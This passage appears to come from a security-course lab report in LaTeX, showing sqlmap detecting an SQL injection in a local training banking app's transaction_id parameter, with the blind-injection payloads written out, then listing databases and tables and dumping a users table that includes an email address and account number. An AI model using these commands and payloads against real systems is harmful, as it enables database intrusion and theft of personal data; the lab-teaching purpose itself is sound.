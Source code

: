 \begin{lstlisting}[caption= First Test with result,label=listing:first_test]
sqlmap -u "host-ip/sc-course/views/transactions/tan\_entry.php?transaction\_id=14"

.....

GET parameter 'transaction_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection points with a total of 202 HTTP(s) requests:
---
Place: GET
Parameter: transaction_id
Type: boolean-based blind
Title: MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)
Payload: transaction_id=14' RLIKE (SELECT (CASE WHEN (6290=6290) THEN 14 ELSE 0x28 END)) AND 'umTL'='umTL

Type: AND/OR time-based blind
Title: MySQL < 5.0.12 AND time-based blind (heavy query)
Payload: transaction_id=14' AND 5296=BENCHMARK(5000000,MD5(0x46744978)) AND 'knKI'='knKI
---
\end{lstlisting}

The next step was to get the name of the database and the tables, as done in Listing \ref{sqlmap-get-tables}

\begin{lstlisting}[caption = Get name and tables of database,label=sqlmap-get-tables]
python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --dbs
...
available databases [10]:
[*] banking_development
[*] dvwa
[*] information_schema
[*] mysql
[*] owasp10
[*] performance_schema
[*] phpmyadmin
[*] samurai_dojo_basic
[*] samurai_dojo_scavenger
[*] test


python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --tables -D banking_development

Database: banking_development
[5 tables]
+--------------+
| payments     |
| phinxlog     |
| tan_numbers  |
| transactions |
| users        |
+--------------+
\end{lstlisting}

Now you can dump a table, e.g "users"

\begin{lstlisting}[caption= Dump Table "users", label=listing:dump_table]
	python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --dump -D banking_development -T users
	...
	[15:14:07] [INFO] retrieved: id
	[15:14:07] [INFO] retrieved: name
	[15:14:08] [INFO] retrieved: password
	[15:14:09] [INFO] retrieved: email
	[15:14:10] [INFO] retrieved: admin
	[15:14:11] [INFO] retrieved: account_no
	...
	[15:14:14] [INFO] retrieved: 1
	[15:14:14] [INFO] retrieved: t.srivishnu@gmail.com
	[15:14:17] [INFO] retrieved: 1
	[15:14:17] [INFO] retrieved: t.srivishnu@gmail.com
	[15:14:19] [INFO] retrieved: 1234567890
	[15:14:20] [INFO] retrieved: 527652613432
	
\end{lstlisting}

